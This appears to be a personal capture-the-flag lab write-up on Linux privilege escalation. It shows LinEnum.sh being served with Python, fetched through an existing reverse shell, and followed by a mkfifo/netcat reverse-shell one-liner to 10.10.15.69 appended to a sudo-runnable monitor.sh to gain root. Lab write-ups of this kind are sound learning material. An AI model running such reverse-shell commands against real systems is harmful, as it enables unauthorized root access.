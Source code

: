To do privilege escalation, we download the LinEnum.sh
![[Screenshot 2024-12-13 at 20.04.33.png]]

and start a http.server using python
![[Screenshot 2024-12-13 at 20.05.33.png]]
After this, we can use the reverse shell to download the linenum file
![[Screenshot 2024-12-13 at 20.06.43.png]]
Downloading and running it. We should change its permission though, to executable.![[Screenshot 2024-12-13 at 20.08.17.png]]
From here, we can see that we can run something as a root from the nibbler user machine. 

### IMPORTANT
what the bash runs is already known, what's important is how we can utilize this bash. We can literally append to the file a reverse shell command to be connected as a root user instead of nibbler
```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.69 8443 >/tmp/f' | tee -a monitor.sh
```
![[Screenshot 2024-12-13 at 20.16.37.png]]

the important info here is to run the exact file + the directory of the file which LinEnum gives us. doing sudo + file will be asked for password, to which we do not know![[Screenshot 2024-12-13 at 20.17.59.png]]
which we can run the python cli and get the flag